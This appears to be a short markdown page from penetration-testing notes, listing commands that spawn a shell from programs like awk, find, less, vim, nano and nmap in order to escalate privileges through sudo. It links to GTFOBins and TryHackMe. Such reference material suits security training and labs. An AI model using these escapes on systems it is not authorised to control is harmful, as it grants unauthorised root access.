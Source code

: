 # Shell Escapes

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via sudo.

* `awk` - `awk 'BEGIN {system("/bin/sh")}'`
* `find` - `find . -exec /bin/sh \; -quit`
* `ftp` - `!/bin/sh`
* `iftop` - `!/bin/sh`
* `less` - `!/bin/sh`
* `man` - `!/bin/sh`
* `more` - `!/bin/sh` (may require TERM to be unset)
* `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` - see "Set a Shell in ViM"

GTFOBins is your one-stop resource for shell escape information.

* [TryHackMe: Complete Beginner](https://tryhackme.com/path/outline/beginner)
* [GTFOBins](https://gtfobins.github.io)
* [Enumerate "sudo" Access](./Enumerate%20%22sudo%22%20Access.md)
* [Set a Shell in ViM](./Set%20a%20Shell%20in%20ViM.md)
